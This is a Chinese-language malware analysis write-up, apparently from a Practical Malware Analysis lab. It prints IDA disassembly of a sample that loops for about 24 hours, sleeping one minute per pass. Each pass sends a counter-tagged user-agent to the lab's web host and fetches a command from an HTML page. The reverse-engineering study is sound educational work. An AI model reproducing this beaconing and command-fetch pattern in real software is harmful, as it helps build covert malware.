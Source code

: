 ```assembly
.text:00401276                 test    edx, edx
.text:00401278                 jnz     short loc_40127E
.text:0040127A                 xor     eax, eax
.text:0040127C                 jmp     short loc_4012B1
.text:0040127E ; ---------------------------------------------------------------------------
.text:0040127E
.text:0040127E loc_40127E:                             ; CODE XREF: _main+48↑j
.text:0040127E                 movsx   eax, [ebp+var_8]
.text:00401282                 push    eax
.text:00401283                 push    offset aSuccessParsedC ; "Success: Parsed command is %c\n"
.text:00401288                 call    sub_4012B5
.text:0040128D                 add     esp, 8
.text:00401290                 mov     ecx, [ebp+argv]
.text:00401293                 mov     edx, [ecx]
.text:00401295                 push    edx             ; lpExistingFileName
.text:00401296                 mov     al, [ebp+var_8]
.text:00401299                 push    eax             ; char
.text:0040129A                 call    sub_401150
.text:0040129F                 add     esp, 8
.text:004012A2                 push    0EA60h          ; dwMilliseconds
.text:004012A7                 call    ds:Sleep
.text:004012AD                 jmp     short loc_401251
```

很明显，var\_c 是用来循环计数的，在 4012AD 处 jmp 401251，返回递增，如果大于5A0h(1440d) 就在401261处跳出循环到 4012AF，循环结束.否则程序接着运行，在401263处开始。将ecx（var\_c） push入栈，接着调用401040（解析html）函数，然后慢慢执行，在4012A7 处调用sleep函数，参数是 EA60h（60000d），即1分钟，所以这个程序会sleep 1440 分钟（24小时）

在上一个程序中，401040 处并没有参数，而这里传入了 arg\_0 作为参数，并且是唯一的参数，而在调用 401040 前，push进了ecx，即var\_c，所以这里的arg\_0 就是var\_c（计数器），push arg\_0入栈后，接着push了 Internet Explorer 7.50/pma%d 字符串，和 szAgent的地址。然后调用\_sprintf 函数，用来将格式化的数据写入字符串，并存储在szAgent 中。然后在40106a调用 INternetOpen 函数，传入的参数是 szAgent，也就是说，每次var\_C 计数器增加后， user-agent长度也会随之改变。这里就可以用来监测该程序运行了多长时间。

```assembly
text:00401040                 push    ebp
.text:00401041                 mov     ebp, esp
.text:00401043                 sub     esp, 230h
.text:00401049                 mov     eax, [ebp+arg_0]
.text:0040104C                 push    eax
.text:0040104D                 push    offset Format   ; "Internet Explorer 7.50/pma%d"
.text:00401052                 lea     ecx, [ebp+szAgent]
.text:00401055                 push    ecx             ; Buffer
.text:00401056                 call    _sprintf
.text:0040105B                 add     esp, 0Ch
.text:0040105E                 push    0               ; dwFlags
.text:00401060                 push    0               ; lpszProxyBypass
.text:00401062                 push    0               ; lpszProxy
.text:00401064                 push    0               ; dwAccessType
.text:00401066                 lea     edx, [ebp+szAgent]
.text:00401069                 push    edx             ; lpszAgent
.text:0040106A                 call    ds:InternetOpenA
.text:00401070                 mov     [ebp+hInternet], eax
.text:00401073                 push    0               ; dwContext
.text:00401075                 push    0               ; dwFlags
.text:00401077                 push    0               ; dwHeadersLength
.text:00401079                 push    0               ; lpszHeaders
.text:0040107B                 push    offset szUrl    ; "http://www.practicalmalwareanalysis.com"...
.text:00401080                 mov     eax, [ebp+hInternet]
.text:00401083                 push    eax             ; hInternet
.text:00401084                 call    ds:InternetOpenUrlA
.text:0040108A                 mov     [ebp+hFile], eax
.text:0040108D                 cmp     [ebp+hFile], 0
.text:00401091                 jnz     short loc_4010B1
```